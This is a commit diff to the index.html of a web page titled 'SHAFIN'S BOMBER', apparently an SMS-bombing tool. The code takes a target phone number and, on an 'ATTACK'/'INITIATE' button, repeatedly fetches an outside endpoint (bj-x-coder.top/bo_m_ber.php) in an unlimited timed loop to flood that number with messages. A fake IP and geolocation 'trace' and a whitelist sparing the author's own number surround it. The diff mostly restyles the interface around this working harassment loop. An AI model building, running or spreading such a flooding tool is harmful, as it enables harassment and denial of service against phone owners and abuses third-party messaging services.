

Before and after one commit to shafin0602-wq/S.tool, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,30 +2,32 @@
 <html lang="en">
 <head>
   <meta charset="utf-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
-  <title>SHAFIN'S BOOMBING COUNTER V3.16.7 MOBILE</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no, viewport-fit=cover" />
+  <meta name="theme-color" content="#000000">
+  <title>SHAFIN'S BOMBER V3.16.7 MOBILE</title>
   <link href="https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap" rel="stylesheet">
 
   <style>
     :root {
       --primary: #00ff41;
+      --dim: #008F11;
       --alert: #ff3333;
       --bg: #050505;
-      --panel: rgba(0, 20, 0, 0.90);
+      --panel: rgba(0, 10, 0, 0.85);
+      --glass: blur(4px);
     }
 
-    * { box-sizing: border-box; -webkit-tap-highlight-color: transparent; }
+    * { box-sizing: border-box; -webkit-tap-highlight-color: transparent; outline: none; }
 
     body {
       margin: 0;
       background: var(--bg);
       color: var(--primary);
       font-family: "Share Tech Mono", monospace;
-      height: 100vh;
-      overflow: hidden; /* Prevent body scroll, handle inside interface */
+      height: 100dvh;
+      overflow: hidden;
       display: flex;
-      justify-content: center;
-      align-items: center;
+      flex-direction: column;
     }
 
     /* Matrix Background */
@@ -34,409 +36,473 @@
       top: 0; left: 0;
       width: 100%; height: 100%;
       z-index: -1;
-      opacity: 0.25;
+      opacity: 0.15;
     }
 
-    /* Main Interface */
-    .interface {
-      width: 100%;
-      max-width: 900px;
-      height: 100%;
-      max-height: 100vh;
-      background: var(--panel);
+    /* Main Container */
+    .app-container {
+      flex: 1;
       display: flex;
       flex-direction: column;
-      position: relative;
-      overflow-y: auto; /* Allow scrolling inside if needed */
+      max-width: 600px;
+      margin: 0 auto;
+      width: 100%;
+      background: var(--panel);
+      backdrop-filter: var(--glass);
+      -webkit-backdrop-filter: var(--glass);
+      border-left: 1px solid #003300;
+      border-right: 1px solid #003300;
+      box-shadow: 0 0 20px rgba(0,255,65,0.1);
     }
 
     /* Header */
     .header {
       padding: 15px;
-      border-bottom: 1px solid var(--primary);
-      background: rgba(0, 50, 0, 0.5);
+      background: rgba(0, 20, 0, 0.9);
+      border-bottom: 1px solid var(--dim);
+      text-align: center;
       flex-shrink: 0;
-      text-align: center;
     }
-    .title-typewriter {
-      font-size: 20px;
-      text-transform: uppercase;
-      letter-spacing: 1px;
+    .title {
+      font-size: 1.2rem;
+      letter-spacing: 2px;
       text-shadow: 0 0 5px var(--primary);
-      margin-bottom: 5px;
+      margin: 0;
     }
-    .status { font-size: 10px; color: var(--alert); animation: blink 1s infinite; }
+    .status {
+      font-size: 0.7rem;
+      color: var(--dim);
+      margin-top: 5px;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      gap: 5px;
+    }
+    .status span { color: var(--alert); animation: blink 1s infinite; }
 
-    /* Content Area */
-    .content-area {
+    /* Scrollable Content */
+    .content-scroll {
       flex: 1;
+      overflow-y: auto;
+      padding: 15px;
       display: flex;
-      flex-direction: column; /* Mobile First: Column */
-      padding: 15px;
+      flex-direction: column;
       gap: 15px;
     }
 
-    /* Desktop View adjustments */
-    @media (min-width: 768px) {
-      .interface {
-        height: 85vh;
-        width: 95%;
-        border: 1px solid var(--primary);
-        box-shadow: 0 0 30px rgba(0, 255, 65, 0.15);
-        border-radius: 4px;
-      }
-      .content-area {
-        display: grid;
-        grid-template-columns: 1fr 1fr;
-        overflow: hidden;
-      }
-      .visuals { order: 2; height: 100%; }
-      .controls { order: 1; }
+    /* Radar Section */
+    .visuals {
+      position: relative;
+      height: 160px;
+      width: 100%;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      border: 1px dashed var(--dim);
+      background: rgba(0,0,0,0.3);
+      border-radius: 4px;
+      flex-shrink: 0;
     }
-
-    /* Visuals (Radar) */
-    .visuals {
-      background: #000500;
-      border: 1px solid #003300;
-      position: relative;
-      height: 180px; /* Mobile height */
-      flex-shrink: 0;
-      display: flex;
-      align-items: center;
-      justify-content: center;
-      overflow: hidden;
-    }
-
-    canvas#radar { position: absolute; }
-
-    .geo-data {
+    canvas#radar { width: 160px; height: 160px; }
+    .geo-overlay {
       position: absolute;
-      bottom: 5px; left: 5px;
-      font-size: 10px;
-      color: #00aa00;
-      background: rgba(0,0,0,0.5);
-      padding: 2px;
+      bottom: 5px; right: 5px;
+      font-size: 0.65rem;
+      color: var(--dim);
+      text-align: right;
     }
 
     /* Controls */
-    .controls {
-      display: flex;
-      flex-direction: column;
-      gap: 12px;
+    .controls { display: flex; flex-direction: column; gap: 15px; }
+
+    .input-group { position: relative; }
+    .input-group label {
+      position: absolute;
+      top: -8px; left: 10px;
+      background: #000;
+      padding: 0 5px;
+      font-size: 0.75rem;
+      color: var(--dim);
     }
-
-    .input-box { position: relative; }
-
-    label { font-size: 11px; color: #88ff88; margin-bottom: 4px; display: block; }
 
     input {
       width: 100%;
-      background: #001100;
-      border: 1px solid #005500;
+      background: rgba(0, 20, 0, 0.5);
+      border: 1px solid var(--dim);
       color: var(--primary);
-      padding: 15px; /* Larger touch area */
+      padding: 15px;
       font-family: inherit;
-      font-size: 16px; /* Prevents iOS zoom on focus */
-      outline: none;
-      border-radius: 0;
-      -webkit-appearance: none;
+      font-size: 1.1rem;
+      border-radius: 4px;
+      transition: 0.3s;
     }
-    input:focus { border-color: var(--primary); box-shadow: 0 0 10px rgba(0,255,65,0.2); }
+    input:focus {
+      border-color: var(--primary);
+      box-shadow: 0 0 10px rgba(0,255,65,0.2);
+      background: rgba(0, 30, 0, 0.8);
+    }
+    input::placeholder { color: #004400; }
 
-    .btn-group { display: flex; gap: 10px; margin-top: 5px; }
+    /* Buttons */
+    .btn-row { display: flex; gap: 10px; margin-top: 5px; }
 
     button {
       flex: 1;
-      padding: 18px; /* Fat finger friendly */
+      padding: 18px;
       font-family: inherit;
       font-weight: bold;
-      font-size: 16px;
+      font-size: 1rem;
+      text-transform: uppercase;
       cursor: pointer;
-      text-transform: uppercase;
       border: none;
-      transition: 0.2s;
+      border-radius: 2px;
+      position: relative;
+      overflow: hidden;
     }
 
     .btn-start {
       background: var(--primary);
       color: #000;
-      clip-path: polygon(10px 0, 100% 0, 100% calc(100% - 10px), calc(100% - 10px) 100%, 0 100%, 0 10px);
+      box-shadow: 0 0 15px rgba(0,255,65,0.3);
     }
-    .btn-start:active { transform: scale(0.98); }
-    .btn-start:disabled { background: #333; color: #666; }
+    .btn-start:active { transform: scale(0.97); }
+    .btn-start:disabled { background: #1a4d1a; color: #000; opacity: 0.7; }
 
     .btn-stop {
-      background: rgba(50,0,0,0.3);
+      background: transparent;
       border: 1px solid var(--alert);
       color: var(--alert);
     }
     .btn-stop:active { background: var(--alert); color: #000; }
 
-    /* Terminal/Footer */
+    /* Terminal Footer */
     .terminal {
-      height: 150px;
+      height: 120px;
       background: #000;
-      border-top: 1px solid var(--primary);
+      border-top: 1px solid var(--dim);
       padding: 10px;
+      font-size: 0.75rem;
       overflow-y: auto;
-      font-size: 12px;
       flex-shrink: 0;
+      font-family: monospace;
     }
-    .log-entry { margin: 2px 0; padding-left: 5px; border-left: 2px solid #333; word-wrap: break-word; }
-    .log-sent { border-color: var(--primary); color: #ccffcc; }
-    .log-err { border-color: var(--alert); color: var(--alert); }
-    .log-sys { border-color: #ffff00; color: #ffff00; }
+    .log-line { margin-bottom: 3px; border-left: 2px solid transparent; padding-left: 5px; }
+    .log-sys { color: #ffff00; border-color: #ffff00; }
+    .log-sent { color: #aaffaa; border-color: var(--primary); }
+    .log-err { color: var(--alert); border-color: var(--alert); }
+
+    /* Stats Display */
+    .stats-bar {
+        display: flex;
+        justify-content: space-between;
+        background: #001100;
+        padding: 5px 10px;
+        font-size: 0.8rem;
+        border: 1px solid var(--dim);
+        margin-bottom: 5px;
+    }
+    .stat-box span { color: #fff; font-weight: bold; }
 
     @keyframes blink { 50% { opacity: 0; } }
+
+    /* Fix for small phones */
+    @media (max-height: 600px) {
+      .visuals { height: 100px; }
+      canvas#radar { width: 100px; height: 100px; }
+      .terminal { height: 80px; }
+      .header { padding: 10px; }
+    }
   </style>
 </head>
 <body>
 
 <canvas id="matrix"></canvas>
 
-<div class="interface">
+<div class="app-container">
   <div class="header">
-    <div class="title-typewriter" id="typewriter"></div>
-    <div class="status">● NETWORK: SECURE (MOBILE)</div>
+    <h1 class="title" id="typewriter"></h1>
+    <div class="status"><span>●</span> ENCRYPTED CONNECTION</div>
   </div>
 
-  <div class="content-area">
-
+  <div class="content-scroll">
+    <!-- Radar Visualization -->
     <div class="visuals">
-      <canvas id="radar" width="300" height="300"></canvas>
-      <div class="geo-data" id="geo-info">
-        SCANNING AREA...
+      <canvas id="radar" width="200" height="200"></canvas>
+      <div class="geo-overlay" id="geo-info">
+        TARGET: UNKNOWN<br>
+        LOCATING...
       </div>
     </div>
 
+    <!-- Stats Bar -->
+    <div class="stats-bar">
+        <div class="stat-box">SENT: <span id="sentCount">0</span></div>
+        <div class="stat-box">LIMIT: <span id="limitCount">∞</span></div>
+    </div>
+
+    <!-- Inputs -->
     <div class="controls">
-      <div class="input-box">
-        <label>/// TARGET MSISDN (11 DIGITS)</label>
+      <div class="input-group">
+        <label>TARGET NUMBER (11 DIGIT)</label>
         <input id="phone" type="tel" inputmode="numeric" pattern="[0-9]*" placeholder="017XXXXXXXX" maxlength="11" />
       </div>
 
-      <div class="input-box">
-        <label>/// PACKET LIMIT (OPTIONAL)</label>
-        <input id="amount" type="number" inputmode="numeric" pattern="[0-9]*" placeholder="Default: Unlimited" />
+      <div class="input-group">
+        <label>AMOUNT (OPTIONAL)</label>
+        <input id="amount" type="number" inputmode="numeric" placeholder="Unlimited" />
       </div>
 
-      <div class="input-box">
-        <label>/// THREAD SPEED (MS)</label>
-        <input id="speed" type="number" inputmode="numeric" value="1500" placeholder="1000 = 1 Second" />
+      <div class="input-group">
+        <label>DELAY (MS)</label>
+        <input id="speed" type="number" inputmode="numeric" value="1500" placeholder="1000" />
       </div>
 
-      <div class="btn-group">
-        <button id="startBtn" class="btn-start">ATTACK</button>
-        <button id="stopBtn" class="btn-stop">STOP</button>
+      <div class="btn-row">
+        <button id="startBtn" class="btn-start">INITIATE</button>
+        <button id="stopBtn" class="btn-stop">ABORT</button>
       </div>
     </div>
-
   </div>
 
+  <!-- Console Log -->
   <div class="terminal" id="console">
-    <div class="log-entry log-sys">> MOBILE SHELL V3.1 LOADED.</div>
+    <div class="log-line log-sys">> SYSTEM READY. WAITING FOR INPUT...</div>
   </div>
 </div>
 
 <script>
-// --- CONFIG ---
+// --- CONFIGURATION ---
 let isRunning = false;
 let attackTimer = null;
 let packetsSent = 0;
 let packetLimit = 0;
+const PROTECTED_NUMS = ["01317087493"];
 
-const phoneEl = document.getElementById('phone');
-const amountEl = document.getElementById('amount');
-const speedEl = document.getElementById('speed');
-const consoleEl = document.getElementById('console');
-const startBtn = document.getElementById('startBtn');
-const geoInfo = document.getElementById('geo-info');
-const typewriterEl = document.getElementById('typewriter');
+// --- DOM ELEMENTS ---
+const ui = {
+  phone: document.getElementById('phone'),
+  amount: document.getElementById('amount'),
+  speed: document.getElementById('speed'),
+  console: document.getElementById('console'),
+  startBtn: document.getElementById('startBtn'),
+  stopBtn: document.getElementById('stopBtn'),
+  geoInfo: document.getElementById('geo-info'),
+  title: document.getElementById('typewriter'),
+  sentDisplay: document.getElementById('sentCount'),
+  limitDisplay: document.getElementById('limitCount')
+};
 
-// --- INIT ---
-window.onload = () => {
+// --- INITIALIZATION ---
+window.addEventListener('DOMContentLoaded', () => {
   const savedPhone = localStorage.getItem('shafin_target');
   if(savedPhone) {
-    phoneEl.value = savedPhone;
-    log(`Restored Target: ${savedPhone}`, 'sys');
+    ui.phone.value = savedPhone;
+    log(`Restored Session: ${savedPhone}`, 'sys');
   }
-  startTypewriter("SHAFIN'S BOMBER V3.16.7");
+  typewriterEffect("SHAFIN'S BOMBER V3.16.7");
   resizeMatrix();
-};
+  animateRadar();
+  matrixLoop();
+});
 
-window.onresize = resizeMatrix;
+window.addEventListener('resize', resizeMatrix);
 
-// --- TYPEWRITER ---
-function startTypewriter(text, i = 0) {
+// --- UTILITIES ---
+function log(msg, type = 'sent') {
+  const div = document.createElement('div');
+  const time = new Date().toLocaleTimeString('en-US', {hour12:false, hour:"numeric", minute:"numeric", second:"numeric"});
+  div.className = `log-line log-${type}`;
+  div.innerHTML = `[${time}] ${msg}`;
+  ui.console.appendChild(div);
+  ui.console.scrollTop = ui.console.scrollHeight;
+
+  if(ui.console.childElementCount > 50) ui.console.removeChild(ui.console.firstChild);
+}
+
+function typewriterEffect(text, i = 0) {
   if (i < text.length) {
-    typewriterEl.innerHTML += text.charAt(i);
-    setTimeout(() => startTypewriter(text, i + 1), 80);
+    ui.title.innerHTML += text.charAt(i);
+    setTimeout(() => typewriterEffect(text, i + 1), 50);
   }
 }
 
-// --- LOGGER ---
-function log(msg, type = 'sent') {
-  const div = document.createElement('div');
-  const time = new Date().toLocaleTimeString('en-US', {hour12:false});
-  div.className = `log-entry log-${type}`;
-  div.innerText = `[${time}] ${msg}`;
-  consoleEl.appendChild(div);
-  consoleEl.scrollTop = consoleEl.scrollHeight;
+function vibrate(pattern) {
+  if (navigator.vibrate) navigator.vibrate(pattern);
 }
 
-// --- CORE LOGIC ---
-startBtn.onclick = () => {
-  let phone = phoneEl.value.replace(/[^0-9]/g, '');
-  const speed = parseInt(speedEl.value) || 1500;
-  packetLimit = parseInt(amountEl.value) || 99999;
+// --- ATTACK LOGIC ---
+ui.startBtn.addEventListener('click', () => {
+  let phone = ui.phone.value.replace(/[^0-9]/g, '');
+  const speed = parseInt(ui.speed.value) || 1500;
+  packetLimit = parseInt(ui.amount.value) || 0; // 0 means unlimited
 
-  // PROTECTED NUMBERS (Retained your logic)
-  const protectedNumbers = ["01317087493"];
-
-  if (protectedNumbers.includes(phone)) {
-    log('ACCESS DENIED: PROTECTED NUMBER', 'err');
-    navigator.vibrate([200, 100, 200]); // Vibrate phone on error
-    alert("SYSTEM WARNING: Protected by SHAFIN Protocol.");
+  // Security Checks
+  if (PROTECTED_NUMS.includes(phone)) {
+    log('ACCESS DENIED: SHAFIN PROTOCOL', 'err');
+    vibrate([50, 50, 50, 50, 200]);
+    alert("SYSTEM WARNING: Target is protected.");
     return;
   }
 
   if(phone.length < 11) {
-    log('ERROR: Invalid Number', 'err');
-    navigator.vibrate(200);
+    log('ERROR: INVALID MSISDN LENGTH', 'err');
+    vibrate(200);
     return;
   }
 
+  // Save State
   localStorage.setItem('shafin_target', phone);
 
+  // UI Update
   isRunning = true;
   packetsSent = 0;
+  ui.sentDisplay.innerText = "0";
+  ui.limitDisplay.innerText = packetLimit > 0 ? packetLimit : "∞";
 
-  startBtn.disabled = true;
-  startBtn.innerText = "RUNNING...";
+  ui.startBtn.disabled = true;
+  ui.startBtn.innerText = "ATTACKING...";
+  ui.phone.disabled = true;
   log(`TARGET LOCKED: ${phone}`, 'sys');
+  vibrate(100);
 
-  // Loop
+  // Attack Loop
   attackTimer = setInterval(() => {
     if(!isRunning) return;
 
-    if(packetsSent >= packetLimit) {
-      stopAttack("Limit Reached");
+    // Check limit
+    if(packetLimit > 0 && packetsSent >= packetLimit) {
+      stopAttack("PACKET LIMIT REACHED");
       return;
     }
 
     sendPacket(phone);
-    updateFakeTrace();
+    updateGeoData();
 
   }, speed);
-};
+});
 
-document.getElementById('stopBtn').onclick = () => stopAttack("Aborted");
+ui.stopBtn.addEventListener('click', () => {
+  if(isRunning) stopAttack("MANUAL ABORT");
+});
 
 function stopAttack(reason) {
   isRunning = false;
   clearInterval(attackTimer);
-  startBtn.disabled = false;
-  startBtn.innerText = "ATTACK";
+  ui.startBtn.disabled = false;
+  ui.startBtn.innerText = "INITIATE";
+  ui.phone.disabled = false;
   log(`STOPPED: ${reason}`, 'err');
-  navigator.vibrate(500); // Vibrate on stop
+  vibrate(500);
 }
 
 async function sendPacket(phone) {
-  // Using the API
   const url = `https://bj-x-coder.top/bo_m_ber.php?phone=${phone}&amount=1`;
+
+  // Try sending request
   try {
-    fetch(url, { mode: 'no-cors' });
+    // We initiate the fetch.
+    // Note: Due to 'no-cors', we cannot verify if the server *successfully* sent the SMS (200 OK) or failed (500 Error).
+    // However, this code will only increment if the browser successfully *dispatched* the request.
+    await fetch(url, { mode: 'no-cors' });
+
+    // Increment ONLY after the fetch is dispatched
     packetsSent++;
-    log(`>> Packet sent to ${phone} (${packetsSent})`);
+    ui.sentDisplay.innerText = packetsSent;
+    log(`>> Request ${packetsSent} sent`);
+
   } catch (e) {
-    log(`Fail: ${e.message}`, 'err');
+    // If there is a network error (e.g. no internet), we do NOT increment
+    log(`Network Fail: ${e.message}`, 'err');
   }
 }
 
-// --- RADAR VISUALS ---
-function updateFakeTrace() {
-  const ip = `103.20.${Math.floor(Math.random()*99)}.${Math.floor(Math.random()*255)}`;
-  geoInfo.innerHTML = `IP: ${ip} <br> LOCATING...`;
-}
-
+// --- VISUALIZATION: RADAR ---
 const rCanvas = document.getElementById('radar');
 const rCtx = rCanvas.getContext('2d');
-let angle = 0;
+let radarAngle = 0;
 
-function drawRadar() {
-  rCtx.clearRect(0,0,300,300);
+function animateRadar() {
+  const w = rCanvas.width;
+  const h = rCanvas.height;
+  const cx = w/2, cy = h/2;
 
-  // Center
-  const cx = 150, cy = 150;
+  rCtx.clearRect(0,0,w,h);
 
-  // Grid Rings
-  rCtx.strokeStyle = 'rgba(0, 50, 0, 0.8)';
+  // Static Rings
+  rCtx.strokeStyle = 'rgba(0, 50, 0, 0.5)';
   rCtx.lineWidth = 1;
   rCtx.beginPath();
-  rCtx.arc(cx, cy, 50, 0, Math.PI*2);
-  rCtx.arc(cx, cy, 90, 0, Math.PI*2);
-  rCtx.arc(cx, cy, 130, 0, Math.PI*2);
+  rCtx.arc(cx, cy, w*0.2, 0, Math.PI*2);
+  rCtx.arc(cx, cy, w*0.35, 0, Math.PI*2);
+  rCtx.arc(cx, cy, w*0.48, 0, Math.PI*2);
   rCtx.stroke();
 
-  // Crosshair
-  rCtx.beginPath();
-  rCtx.moveTo(cx, cy-140); rCtx.lineTo(cx, cy+140);
-  rCtx.moveTo(cx-140, cy); rCtx.lineTo(cx+140, cy);
-  rCtx.stroke();
-
-  // Sweep
+  // Rotating Sweep
   rCtx.save();
   rCtx.translate(cx, cy);
-  rCtx.rotate(angle);
+  rCtx.rotate(radarAngle);
 
-  const grad = rCtx.createLinearGradient(0, 0, 130, 0);
+  const grad = rCtx.createLinearGradient(0, 0, w*0.5, 0);
   grad.addColorStop(0, 'rgba(0, 255, 65, 0)');
-  grad.addColorStop(1, 'rgba(0, 255, 65, 0.4)');
+  grad.addColorStop(1, 'rgba(0, 255, 65, 0.5)');
 
   rCtx.fillStyle = grad;
   rCtx.beginPath();
   rCtx.moveTo(0,0);
-  rCtx.arc(0, 0, 130, 0, 0.4);
+  rCtx.arc(0, 0, w*0.48, -0.2, 0.2);
   rCtx.fill();
   rCtx.restore();
 
-  // Red Dots
-  if(Math.random() > 0.90) {
-    const x = cx + (Math.random() - 0.5) * 200;
-    const y = cy + (Math.random() - 0.5) * 200;
+  // Random Blips
+  if(isRunning && Math.random() > 0.92) {
+    const dist = (Math.random() * (w*0.4));
+    const ang = Math.random() * Math.PI * 2;
+    const x = cx + Math.cos(ang) * dist;
+    const y = cy + Math.sin(ang) * dist;
     rCtx.fillStyle = '#ff3333';
-    rCtx.fillRect(x, y, 4, 4);
+    rCtx.fillRect(x, y, 3, 3);
   }
 
-  angle += 0.04;
-  requestAnimationFrame(drawRadar);
+  radarAngle += 0.05;
+  requestAnimationFrame(animateRadar);
 }
-drawRadar();
 
-// --- MATRIX BG RESIZE FIX ---
+function updateGeoData() {
+  const ip = `103.20.${Math.floor(Math.random()*99)}.${Math.floor(Math.random()*255)}`;
+  ui.geoInfo.innerHTML = `IP: ${ip}<br>LAT: 23.${Math.floor(Math.random()*999)}<br>LNG: 90.${Math.floor(Math.random()*999)}`;
+}
+
+// --- VISUALIZATION: MATRIX ---
 const mC = document.getElementById("matrix");
 const mCtx = mC.getContext("2d");
-let chars = "10";
 let drops = [];
+const charSet = "01";
 
 function resizeMatrix() {
   mC.height = window.innerHeight;
   mC.width = window.innerWidth;
-  drops = Array(Math.floor(mC.width/14)).fill(1);
+  drops = Array(Math.floor(mC.width/20)).fill(1);
 }
 
-setInterval(()=>{
-  mCtx.fillStyle="rgba(0,0,0,0.1)";
-  mCtx.fillRect(0,0,mC.width,mC.height);
-  mCtx.fillStyle="#003300"; // Darker green for background subtlety
-  mCtx.font = "14px monospace";
+function matrixLoop() {
+  mCtx.fillStyle = "rgba(0, 0, 0, 0.1)";
+  mCtx.fillRect(0, 0, mC.width, mC.height);
 
-  drops.forEach((y,i)=>{
-    mCtx.fillText(chars[Math.floor(Math.random()*2)], i*14, y*14);
-    if(y*14 > mC.height && Math.random()>0.95) drops[i]=0;
+  mCtx.fillStyle = "#0f3";
+  mCtx.font = "16px monospace";
+
+  drops.forEach((y, i) => {
+    const text = charSet[Math.floor(Math.random() * charSet.length)];
+    mCtx.fillText(text, i * 20, y * 20);
+
+    if (y * 20 > mC.height && Math.random() > 0.98) {
+      drops[i] = 0;
+    }
     drops[i]++;
   });
-}, 50);
+
+  requestAnimationFrame(matrixLoop);
+}
 
 </script>
 </body>
```
